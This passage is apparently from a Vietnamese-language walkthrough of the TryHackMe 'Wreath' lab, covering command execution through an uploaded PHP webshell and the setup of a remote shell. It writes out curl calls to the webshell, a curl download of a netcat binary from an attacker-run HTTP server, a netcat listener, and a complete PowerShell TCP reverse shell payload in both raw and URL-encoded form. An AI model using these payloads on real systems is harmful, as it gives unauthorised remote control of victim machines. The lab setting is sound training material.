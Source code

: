 curl -X POST  -d "a=COMMAND"

Cách khác là dùng burpsuite

![](../media/Wreath%20-%20tryhackme_4.png)

capture url và send to repeater, sau đó thêm phần

Content-Type: application/x-www-form-urlencoded
a=<command>

Nhấn send để nhận phản hồi

![](../media/Wreath%20-%20tryhackme_5.png)

Sau đó truy cập lại firewall server có ip .200 dùng curl để down bin của nc về:

curl http://10.50.85.26:8000/nc -o ./nc-dai

chmod +x nc-dai

![](../media/Wreath%20-%20tryhackme_6.png)

![](../media/Wreath%20-%20tryhackme_7.png)

Trên server firewall, ta add thêm 1 port mới để tạo reverse shell:

firewall-cmd --zone=public --add-port PORT/tcp

và dùng nc để lắng nghe port vừa tạo

./nc -nlvp 15426

![](../media/Wreath%20-%20tryhackme_8.png)

Trở lại git server dùng payload sau để tạo reverse shell:

powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

nhấn ctrl+u ở payload để encode payload nếu dùng burpsuite

![](../media/Wreath%20-%20tryhackme_9.png)

Nếu dùng curl thì dùng command sau:

curl -X POST http://10.200.84.150/web/exploit-dai.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.84.200%27%2C15426%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
